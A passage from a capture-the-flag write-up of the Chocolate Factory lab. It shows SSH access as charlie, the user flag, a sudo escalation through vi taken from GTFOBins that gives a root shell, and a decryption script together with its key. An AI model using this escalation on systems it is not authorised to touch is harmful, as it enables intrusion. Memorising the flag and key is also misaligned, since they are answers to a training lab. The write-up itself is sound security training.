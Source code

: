 There we go, let's get the key and go into ssh as Charlie:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408132847.png)

We can read `user.txt` now:

```
charlie@chocolate-factory:/home/charlie$ cat user.txt
flag{cd5509042371b34e4826e4838b522d2e}
```

We can see this if we use `sudo -l`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408133050.png)

We got sudo permissions at `/usr/bin/vi`, let's check gtfobins:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408133125.png)

So, we can simply do this:

```
sudo /usr/bin/vi -c ':!/bin/bash' /dev/null
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250408133155.png)

There we go, we got root access, let's read `root.txt`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408133322.png)

There's no `root.txt`, weird, let's check the contents of the root directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408133343.png)

There's something called `root.py`, if we take a look at it, we can see this code:

```python
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
```

We can simply enter the key we got from earlier:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```
